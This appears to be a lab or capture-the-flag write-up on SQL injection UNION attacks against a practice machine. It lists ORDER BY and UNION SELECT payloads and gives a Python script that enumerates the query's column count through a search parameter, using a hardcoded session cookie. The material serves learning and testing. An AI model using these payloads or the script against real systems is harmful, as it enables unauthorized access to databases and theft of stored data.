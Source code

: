 ### UNION select
- Source
  - [SQLinjection UNION attacks[PortSwigger]](https://portswigger.net/web-security/sql-injection/union-attacks)

### Finding Columns for attack
- Finding how many columns for SQL injection attack
- By inserting this into `search field`:
  -  `' ORDER BY 1--`
  -  `' ORDER BY 2--`
  -  `' ORDER BY 3--` .. and so on.
  	-  Until you've found an error.

### Python script
- However, I'm kinda lazy. So, I made python script for it.

```python
#!/usr/bin/env python3

import requests

for i in range(1,100):
    url = f"http://10.10.10.46/dashboard.php?search=' ORDER BY {i} --"
    c = {'PHPSESSID':'lfbncgq98bat28uu4v3r4j2dnh'}
    r = requests.get(url, cookies=c)
    if len(r.content) == 2449:
        print(f"Error Not Here {i}")
    else:
        print(f"Error Here {i}")
```

- the result

![1](12.png)

- By looking at this result, we've found 5 columns.

### Finding Columns with useful data

> Generally, the interesting data that you want to retrieve will be in string form, so you need to find one or more columns in the original query results whose data type is, or is compatible with, string data.

- Now, we just found `5 columns` 
- The next payload gonna be using `UNION SELECT` 
- `Place string into each column.`
- This is what I'm gonna try:
	- `' UNION SELECT 'a',NULL,NULL,NULL,NULL--`
	- `' UNION SELECT NULL,'a',NULL,NULL,NULL--`
	- `' UNION SELECT NULL,NULL,'a',NULL,NULL--`
	- `' UNION SELECT NULL,NULL,NULL,'a',NULL--`
	- `' UNION SELECT NULL,NULL,NULL,NULL,'a'--`

